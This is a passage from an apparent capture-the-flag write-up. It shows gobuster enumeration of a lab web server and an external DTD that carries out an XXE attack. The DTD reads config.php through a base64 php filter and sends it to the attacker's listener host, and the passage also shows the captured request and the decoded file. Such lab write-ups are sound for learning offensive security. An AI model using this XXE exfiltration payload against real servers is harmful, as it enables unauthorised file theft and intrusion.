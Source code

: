 ```bash
gbyolo:x:1000:1000::/home/gbyolo:/bin/bash
```
Base64 decoding the data, we indeed get the /etc/passwd from the server as a response.

### Leaking config.php
Now that we have file-read, let us use gobuster and try to find any interesting file we can leak using this vulnerability.
```bash
root@silence:~# gobuster dir -u http://10.10.10.173 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.173
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php
[+] Timeout:        10s
===============================================================
2020/05/13 20:01:07 Starting gobuster
===============================================================
/index (Status: 200)
/profile (Status: 200)
/uploads (Status: 301)
/static (Status: 301)
/upload (Status: 200)
/upload.php (Status: 200)
/release (Status: 301)
/vendor (Status: 301)
/config.php (Status: 200)
/patents (Status: 301)
```
Config.php seems interesting, so let try to leak the contents of this file.

```bash
root@silence:~# cat ext.dtd
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=config.php">
<!ENTITY % file "<!ENTITY exfil SYSTEM 'http://10.10.14.5/DATA?%data;'>">
```
In order to leak config.php, we simply have to change the file to read in the ext.dtd file.

```bash
10.10.10.173 - - [13/May/2020 20:03:24] "GET /DATA?PD9waH[...]Cj8+Cgo= HTTP/1.0" 404 -

root@silence:~# echo -n "PD9waH[...]Cj8+Cgo=" | base64 -d
<?php
# needed by convert.php
$uploadir = 'letsgo/';

# needed by getPatent.php
# gbyolo: I moved getPatent.php to getPatent_alphav1.0.php because it's vulnerable
define('PATENTS_DIR', '/patents/');
?>
```
Base64 decoding the received data, we get find a new interesting file, we could try to access: getPatent_alphav1.0.php.
